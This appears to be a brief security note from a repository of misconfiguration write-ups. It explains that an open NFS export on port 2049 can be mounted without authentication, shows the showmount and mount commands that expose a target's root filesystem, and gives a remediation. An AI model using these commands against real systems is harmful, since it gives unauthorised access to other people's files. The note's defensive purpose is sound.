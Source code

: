 
- description:

An attcker could mount victim's NFS shares locally to his machine without authentication


- default port: 2049


- example:

```
$ showmount -e 192.168.43.223
Export list for 192.168.43.223:
/ *

$ mkdir /tmp/victim
$ sudo mount -t nfs 192.168.43.223:/ /tmp/victim
$ df -h
Filesystem        Size  Used Avail Use% Mounted on
.
.
.
192.168.43.223:/  7.0G  1.5G  5.2G  22% /tmp/victim
$ cd /tmp/victim
dofa@dofa-SATELLITE-PRO-L850-1MH:/tmp/victim$ ls
root
bin
tmp
.
.
.
```


- How to solve:

Configure NFS share to only authorize certain users to mount NFS shares
